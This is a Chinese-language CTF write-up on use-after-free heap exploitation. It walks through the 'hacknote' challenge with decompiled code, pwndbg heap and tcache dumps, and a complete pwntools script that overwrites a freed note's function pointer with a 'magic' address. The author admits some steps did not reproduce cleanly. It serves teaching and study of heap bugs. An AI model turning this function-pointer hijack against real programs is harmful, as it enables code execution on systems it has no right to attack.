

# UAF

use after free,其内容如同其名称。在free后进行利用。UAF是堆结构漏洞的一种重要的利用方式。

    内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
    内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序很有可能可以正常运转。
    内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能会出现奇怪的问题。

而我们一般所指的 Use After Free 漏洞主要是后两种。此外，我们一般称被释放后没有被设置为 NULL 的内存指针为 dangling pointer。


> 在计算机编程领域中，迷途指针，或称悬空指针、野指针，指的是不指向任何合法的对象的指针
>
> 当所指向的对象被释放或者收回，但是对该指针没有作任何的修改，以至于该指针仍旧指向已经回收的内存地址，此情况下该指针便称迷途指针。若操作系统将这部分已经释放的内存重新分配给另外一个进程，而原来的程序重新引用现在的迷途指针，则将产生无法预料的后果。因为此时迷途指针所指向的内存现在包含的已经完全是不同的数据。通常来说，若原来的程序继续往迷途指针所指向的内存地址写入数据，这些和原来程序不相关的数据将被损坏，进而导致不可预料的程序错误。这种类型的程序错误，不容易找到问题的原因，通常会导致存储器区块错误（Linux系统中）和一般保护错误（Windows系统中）。如果操作系统的内存分配器将已经被覆盖的数据区域再分配，就可能会影响系统的稳定性。

### hacknote



很明显的一个菜单题，也是堆类题的模板，大多数的呈现形式也是这样的。

```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &buf, 4u);
      v3 = atoi(&buf);
      if ( v3 != 2 )
        break;
      del_note();
    }
    if ( v3 > 2 )
    {
      if ( 
```

各个功能函数不一一分析，基本的逆向功底，而且并不会很复杂，我们主要关注一下del_note。

```
unsigned int del_note()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( notelist[v1] )
  {
    free(*((void **)notelist[v1] + 1));
    free(notelist[v1]);
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

可以发现其中在对notelist内容进行判断的时候，对note对应的结构体的两项进行了free，而没有置为null。

```
    free(*((void **)notelist[v1] + 1));
    free(notelist[v1]);
```

查看notelist的地址。

```
.bss:0804A070 notelist        dd ?                    ; DATA XREF: add_note+40↑r
.bss:0804A070                                         ; add_note+61↑w ...
.bss:0804A074                 db    ? ;
.bss:0804A075                 db    ? ;
.bss:0804A076                 db    ? ;
.bss:0804A077                 db    ? ;
.bss:0804A078                 db    ? ;
.bss:0804A079                 db    ? ;
.bss:0804A07A                 db    ? ;
.bss:0804A07B                 db    ? ;
.bss:0804A07C                 db    ? ;
.bss:0804A07D                 db    ? ;
.bss:0804A07E                 db    ? ;
.bss:0804A07F                 db    ? ;
.bss:0804A080                 db    ? ;
.bss:0804A081                 db    ? ;
.bss:0804A082                 db    ? ;
.bss:0804A083                 db    ? ;
.bss:0804A083 _bss            ends
```


申请堆块之前（添加note之前）：

```
pwndbg> x/20wx 0x0804a070
0x804a070 <notelist>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080 <notelist+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
pwndbg> bin
bins: Heap is not initialized yet.
```

申请两个堆块之后（添加两次）

```
pwndbg> c
Continuing.
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :1
Note size :12
Content :aaaa
Success !
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :1
Note size :10
Content :aaaa
Success !

```


```
pwndbg> x/20wx 0x0804a070
0x804a070 <notelist>:	0x0804b1a0	0x0804b1c0	0x00000000	0x00000000
0x804a080 <notelist+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000

pwndbg> bin
tcachebins
empty
fastbins
0x10: 0x0
0x18: 0x0
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

这里需要注意的是malloc指针其实指向的是chunk的内容部分，如果想要看完整的chunk结构体还要减去0x8（64位减0x10），因为需要把prev_size和size部分让出来。

```
pwndbg> x/20wx 0x0804b198
0x804b198:	0x00000000	0x00000011	0x0804865b	0x0804b1b0
0x804b1a8:	0x00000000	0x00000011	0x61616161	0x0000000a
0x804b1b8:	0x00000000	0x00000011	0x0804865b	0x0804b1d0
0x804b1c8:	0x00000000	0x00000011	0x61616161	0x0000000a
0x804b1d8:	0x00000000	0x00021e29	0x00000000	0x00000000
```

struct_chunk和content_chunk是紧紧挨在一起的，图形化结构如下：（省略画图，直接引用图来自引用[博文](https://my.oschina.net/u/4345478/blog/4656767)）


其中0x0804865b是print_note_content的地址。


我们接下来将两个结构体free了

```
pwndbg> x/20wx 0x0804b198
0x804b198:	0x00000000	0x00000011	0x0804b1b0	0x0804b010
0x804b1a8:	0x00000000	0x00000011	0x00000000	0x0804b010
0x804b1b8:	0x00000000	0x00000011	0x0804b1d0	0x0804b010
0x804b1c8:	0x00000000	0x00000011	0x0804b1a0	0x0804b010
0x804b1d8:	0x00000000	0x00021e29	0x00000000	0x00000000

pwndbg> bin
tcachebins
0x10 [  4]: 0x804b1c0 —▸ 0x804b1d0 —▸ 0x804b1a0 —▸ 0x804b1b0 ◂— 0x0
fastbins
0x10: 0x0
0x18: 0x0
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

(后续复现出现一些区别，留个坑后面填)

回到上头重新创建两个结构体，大小经历在（13`28之间，使得size大小内容为0x00000021）

造好后的chunck信息如下：

```
pwndbg> x/60wx 0x0804b198
0x804b198:	0x00000000	0x00000011	0x0804865b	0x0804b1b0
0x804b1a8:	0x00000000	0x00000021	0x61616161	0x61616161
0x804b1b8:	0x0000000a	0x00000000	0x00000000	0x00000000
0x804b1c8:	0x00000000	0x00000011	0x0804865b	0x0804b1e0
0x804b1d8:	0x00000000	0x00000021	0x61616161	0x61616161
0x804b1e8:	0x0000000a	0x00000000	0x00000000	0x00000000
```

虽然chunk在一起，但是无法进行溢出。没有修改功能，也不能自己构造结构体。那么只能去考虑释放与重新申请的过程中能够有所突破。假设我们将print()函数指针替换成system(“cat flag”)指针就可以拿到flag了。


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
r = process('./hacknote')

def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)
def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
#gdb.attach(r)
magic = 0x08048986
addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1
delnote(0) # delete note 0
delnote(1) # delete note 1
addnote(8, p32(magic)) # add note 2
printnote(0) # print note 0
```


> https://my.oschina.net/u/4345478/blog/4656767